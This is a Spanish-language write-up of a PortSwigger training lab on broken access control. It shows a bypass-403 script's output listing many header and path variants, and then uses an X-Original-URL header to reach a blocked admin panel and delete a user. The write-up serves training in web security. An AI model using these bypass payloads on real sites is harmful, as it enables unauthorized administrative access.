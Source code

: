 ```yaml
---
title: URL-based access control can be circumvented
description: Laboratorio de Portswigger sobre Broken Access Control
date: 2024-12-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Broken Access Control
tags:
  - Portswigger Labs
  - Broken Access Control
  - URL-based access control can be circumvented
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene un `panel de administración` no autenticado en `/admin`, pero se ha configurado un sistema de `front-end` para bloquear el acceso externo a esa ruta. Sin embargo, la `aplicación de back-end` está construida sobre un `framework` que soporta el encabezado `X-Original-URL`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`

---

## Guía de broken access control

`Antes` de completar este laboratorio es recomendable leerse esta guía de broken access control [https://justice-reaper.github.io/posts/Broken-Access-Control-Guide/](https://justice-reaper.github.io/posts/Broken-Access-Control-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Broken-Access-Control-Lab-10/image_1.png)

Si pulsamos en `Admin panel` no nos deja acceder y nos muestra un código de estado `403 Access Denied`. Existe una herramienta llamada `bypas-403` [https://github.com/v0rl0x/bypass-403-updated.git](https://github.com/v0rl0x/bypass-403-updated.git), la cual mediante diferentes `headers` intenta `bypassear` este código de estado. Podemos encontrar `payloads` y otras herramientas en `Hacktricks` [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses). Es importante probar con `/admin` y con `admin` debido a que hay varias cabeceras que necesitan una ruta

```
# ./bypass-403.sh https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net /admin
 ____                                  _  _    ___ _____ 
| __ ) _   _ _ __   __ _ ___ ___      | || |  / _ \___ / 
|  _ \| | | | '_ \ / _` / __/ __|_____| || |_| | | ||_ \ 
| |_) | |_| | |_) | (_| \__ \__ \_____|__   _| |_| |__) |
|____/ \__, | .__/ \__,_|___/___/        |_|  \___/____/ 
       |___/|_|                                          
                                               By Iam_J0ker
./bypass-403.sh https://example.com path
 
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/%2e//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/.
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net///admin//
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/.//admin/./
200,3114  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Original-URL: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Custom-IP-Authorization: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: http://127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: 127.0.0.1:80
200,10707  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net -H X-re
write-url: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%20
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%09
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin?
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.html
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/?anything
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin#
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H Content-Length:0 -X POST
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/*
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.php
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.json
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin  -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Host: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin..;/
000,0  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin;/
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-Host: 127.0.0.1
Way back machine:
{
  "available": null,
  "url": null
}
```

Si `capturamos` la `petición` y aplicamos la cabecera `X-Original-Url: /admin`

![](/assets/img/Broken-Access-Control-Lab-10/image_2.png)

Hacemos click derecho, pulsamos sobre `Show response in browser` y accedemos a un panel administrativo

![](/assets/img/Broken-Access-Control-Lab-10/image_3.png)

Si intentamos `eliminar` a un `usuario` no nos dejará y nos `redirigirá` a `https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/admin/delete?username=carlos`. Debemos realizar la `petición` de esta forma para poder `eliminar` al usuario `carlos`

![](/assets/img/Broken-Access-Control-Lab-10/image_4.png)
